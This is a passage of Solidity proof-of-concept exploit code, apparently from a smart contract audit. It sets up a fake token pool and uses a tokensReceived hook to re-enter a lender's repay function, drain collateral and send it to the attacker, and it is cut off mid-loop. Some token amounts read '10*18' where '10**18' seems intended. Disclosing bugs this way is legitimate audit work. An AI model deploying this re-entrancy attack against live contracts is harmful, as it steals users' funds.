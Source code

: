 ```solidity

    function attack(address _collateralToken) external{
        ERC20(_collateralToken).approve(address(lender), type(uint256).max);
        exploitToken = new ExploitToken(1_000_000_000*10*18);
        ERC20(exploitToken).approve(address(lender), type(uint256).max);

        Pool memory pool = Pool({
            lender: address(this),
            loanToken: address(exploitToken),
            collateralToken: _collateralToken,
            minLoanSize: 1,
            poolBalance: 1_000_000*10*18,
            maxLoanRatio: type(uint256).max,
            auctionLength: 1 days,
            interestRate: 0,
            outstandingLoans: 0
        });

        bytes32 poolId = lender.setPool(pool);

        Borrow memory b = Borrow({
            poolId: poolId,
            debt: 1,
            collateral: 1_000*10**18
        });

        Borrow[] memory borrows = new Borrow[](1);

        borrows[0] = b;        

        lender.borrow(borrows);

        // (4) Take another loan of exploitTokens to increase poolBalance

        b = Borrow({
            poolId: poolId,
            debt: 1_000,
            collateral: 1
        });

        borrows = new Borrow[](1);
        borrows[0] = b;        
        lender.borrow(borrows);
        loanBorrowed = true;

        // (5) Repay the loan
        uint256 loanId = 0;
        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = loanId;
        lender.repay(loanIds);
        // (7) Send the funds back to the attacker
        ERC20(_collateralToken).transfer(msg.sender, ERC20(_collateralToken).balanceOf(address(this)));   
    }

    function tokensReceived(address from, address to, uint256 /*amount*/) external {
        if (msg.sender == address(exploitToken)) {
            if (from == address(this) && to == address(lender) && loanBorrowed) {
                // (6) Re-enter the `repay` function (10 times for POC); 
                if (i < 10) {
                    i = i + 1;                    
                    uint256 loanId = 0;
                    uint256[] memory loanIds = new uint256[](1);
```